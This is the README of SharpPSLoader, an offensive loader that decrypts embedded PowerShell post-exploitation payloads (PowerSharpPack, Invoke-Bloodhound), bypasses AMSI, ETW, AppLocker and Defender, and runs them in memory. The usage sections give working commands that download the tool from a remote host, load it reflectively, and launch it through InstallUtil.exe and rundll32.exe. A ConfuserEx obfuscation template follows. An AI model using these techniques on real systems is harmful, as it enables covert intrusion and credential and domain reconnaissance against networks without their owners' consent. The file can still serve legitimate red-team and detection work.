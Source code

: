 # SharpPSLoader

SharpPSLoader is a loader for [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and other powershell scripts, designed to bypass AMSI, Constrained Language Mode (CLM), Applocker, and Windows Defender using the [PowerPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) technique and LOLBAS binaries. 


SharpPSLoader works like this: 
1. Decrypt single-byte encrypted powershell payload (currently PowerSharpPack & Invoke-Bloodhound) from its resources section
2. Bypass AMSI and ETW
3. Create custom Powershell runspace and load #1 in-memory 
4. Invoke #1 powershell payload with user argument 

For detailed usage, refer to the `Usage` section below.

## Credits 
All credits goes to [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t), [@Jean_Maes_1994](https://twitter.com/Jean_Maes_1994), [@xpn](https://twitter.com/_xpn_), [@3xpl01tc0d3r](https://3xpl01tc0d3r.blogspot.com/), OSEP, and other researchers in the field. I just copy/pasted their code & added couple lines of code and that's all.

## Demo 
SharpPSLoader can be executed on-disk, in-memory, through InstallUtils.exe, and through rundll32.exe. 

![demo](/images/Sharppsloader-demo.gif)

## Usage 

SharpPSLoaderConsole and SharpPSLoaderLibrary can be executed with the following syntax: 
```
./SharpPSLoaderConsole <payload#> <powershell_function & arguments>
ex) ./SharpPSLoaderConsole 1 powersharppack -rubeus -command "triage"
```

Current list of payloads:
```
1 = PowerSharpPack 
2 = Invoke-Bloodhound 
```

### SharpPSLoaderConsole - on-disk console 
```
(new-object net.webclient).downloadfile("http://192.168.40.130:8888/SharpPSLoaderConsole.exe","c:\users\low\SharpPSLoaderConsole.exe")
.\SharpPSLoaderConsole.exe 1 powersharppack -seatbelt -command "-group=user"
```
### SharpPSLoaderConsole - in-memory 
```
$b = (New-Object net.webclient).DownloadData("http://192.168.40.130:8888/SharpPSLoaderConsole.exe")
[System.Reflection.Assembly]::Load($b)
[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("1","Powersharppack -sharpup audit"))

[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("2","Invoke-Bloodhound -c All"))
```

### SharpPSLoaderConsole - LOLBAS - InstallUtils.exe, on-disk
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="<payload#> <powershell_function & argument>" /U .\SharpPSLoaderConsole.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="1 PowerSharpPack -seatbelt -Command '-group=user'" /U .\SharpPSLoaderConsole.exe
```

### SharpPSLoaderLibrary - LOLBAS - rundll32.exe, on-disk 
```
(64bit) c:\windows\system32\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user 

(32bit)) C:\Windows\SysWOW64\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user
```

## Usage - Powershell Payloads 
For detailed usage of PowerSharpPack and Invoke-Bloodhound, refer to the `References` section down below.

## Obfuscation - Warning 
If you want to obfuscate the assembly with confuserEx and execute it in-memory, use the  `SharpPSLoader-confuser.crproj` configuration file as a template. The configuration file's rules were specifically built to not scramble assembly types and not include compressor so the assembly can be executed in-memory. If you know what you are doing, you do you.  

```
<project outputDir="<output-directory>" baseDir="<base-directory>" xmlns="http://confuser.codeplex.com">
  <module path="SharpPSLoaderConsole.exe">
    <rule pattern="true" preset="normal" inherit="false">
      <protection id="resources" />
      <protection id="rename" action="remove" />
      <protection id="typescramble" action="remove" />
      <protection id="constants" />
      <protection id="ctrl flow" />
    </rule>
  </module>
</project>
```

## References
- [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
- [Bloodhound](https://github.com/BloodHoundAD/BloodHound)
